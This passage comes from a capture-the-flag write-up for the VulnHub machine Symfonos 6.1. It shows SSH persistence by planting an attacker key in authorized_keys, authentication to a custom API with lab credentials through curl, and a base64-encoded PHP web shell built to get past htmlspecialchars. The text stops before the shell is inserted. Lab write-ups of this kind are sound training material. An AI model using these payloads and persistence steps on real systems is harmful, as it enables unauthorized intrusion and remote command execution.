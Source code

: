 ## TCP/22 (SSH)
1. Obtain a more stable shell by copying your private key into git's `.ssh/authorized_keys`
	```
	[git@symfonos6 tmp]$ cd /home/achilles
	[git@symfonos6 ~]$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDeiQIVUawX98au7XzxT8GIdr2FNcZxtxpyDU/+TuwyCyoyWeM6iRyy2f+1xRqeca7dsaPIsPtp7nKwcpDzMCH9uXMKZFXBU4GedcDgL5rFMWONq6GdivuY+oflxlukJrnFn8Y/roNqjtwntXKnV+1dkCXjI8zLly7V1nt7W3U+kLzUgem3uso18RCoCTJLf+XlrF0PGuiuIGP3zZVuadrYm5VdDwbgOSUcUL3Zu+FU1W1wC2QE0EhhgBWXrwBQuIZiq4rFRo9RuxoFl42YyFgGugmV405/ROAXypR+M7vT5JnUt/7Zs4Y2lmapKY8rS93EPZIfurBCzB2YUNyNBbrZHyxAj/5I9iLqdRPvyI22NoRTz7U9s= root@kali" > .ssh/authorized_keys
	```
2. SSH w/ your `id_rsa`
	```
	┌──(root💀kali)-[~/vulnHub/Symfonos-6.1/192.168.110.24/exploit]
	└─# ssh git@$ip -i /root/.ssh/id_rsa 
	Last login: Thu Feb 10 20:39:02 2022 from 192.168.110.4
	[git@symfonos6 ~]$ 
	```
3. Head to Privilege Escalation

# Initial Foothold (2) - Exploit API
1. Instead of exploiting Gitea itself w/ `49571.py`, exploit the api at `TCP/5000`
2. Login Gitea w/ achilles:h2sBr9gryBunKdF9
3. Proceed to `Repositories -> symfonos-api`, it contains the source code for the API running at `TCP/5000`
4. I am not familiar with golang, so I am not 100% sure what the code is doing.
5. After viewing the code, we are able to insert do RCE
	1. `api.go`
		![](Pasted%20image%2020220211030000.png)
		- access the `api` at `http://$ip:5000/ls2o4g`
	2. `posts.go`
	 ![](Pasted%20image%2020220211024708.png)
		 - Before we can POST a webshell, we must be authenticated first
		 - We can POST a webshell at `/ls2o4g/api/v1.0/posts`
	3. `auth.go`
		![](Pasted%20image%2020220211025256.png)
		- We are able to authenticate at `/ls2o4g/api/v1.0/auth/login`
	4. `index.php`
		![](Pasted%20image%2020220211031839.png)
		- `htmlspecialchars`, characters are escaped
6. Obtain a shell by bypassing `htmlspecialchars` & inserting a web shell, refered to a [writeup](http://ratmirkarabut.com/articles/vulnhub-writeup-symfonos-6-1/) to create the json request.
	1. Authenticate
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-6.1]
		└─# curl -H "Content-Type: application/json" "http://$ip:5000/ls2o4g/v1.0/auth/login" -d '{"username":"achilles","password":"h2sBr9gryBunKdF9"}'
		{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NDUxNTQwOTUsInVzZXIiOnsiZGlzcGxheV9uYW1lIjoiYWNoaWxsZXMiLCJpZCI6MSwidXNlcm5hbWUiOiJhY2hpbGxlcyJ9fQ.Jd-JaDANHB02bKU80EaSvdlXG-ggfDRxR4ly36IG8FM","user":{"display_name":"achilles","id":1,"username":"achilles"}}
		```
	2. Base64 encode webshell to bypass `htmlspecialchars`
		```
		echo '<?php system($_GET["cmd"]); ?>' | base64
		PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
		```
	3. Insert a webshell to `post`
		```